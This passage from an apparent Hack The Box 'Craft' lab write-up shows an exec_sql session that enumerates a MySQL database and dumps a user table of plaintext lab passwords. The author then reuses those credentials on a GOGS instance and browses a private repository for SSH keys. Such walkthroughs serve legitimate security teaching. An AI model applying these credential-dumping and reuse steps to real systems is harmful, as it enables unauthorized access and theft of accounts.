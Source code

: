 exec_sql("SHOW DATABASES;")
[{'Database': 'craft'}, {'Database': 'information_schema'}]
>>> exec_sql("SHOW TABLES")
exec_sql("SHOW TABLES")
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
>>> exec_sql("SELECT * FROM user")
exec_sql("SELECT * FROM user")
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
>>> 

{% endhighlight %}

The database contained the following credentials:

{% highlight bash %}
dinesh 4aUh0A8PbVJxgd
ebachman llJ77D8QFkLPQB
gilfoyle ZEU3N8WNM2rh4T

{% endhighlight %}

I tried them on SSH, but they didn’t work. However, they seemed to be working on the GOGS platform. Gilfoyle had another private repository which seemed interesting:

<div>
<center><img src="/images/craft_htb_writeup/image-26.png"></center>
</div>

<div>
<center><img src="/images/craft_htb_writeup/image-27.png"></center>
</div>

I clicked on the `.ssh` folder to see if there are any keys:
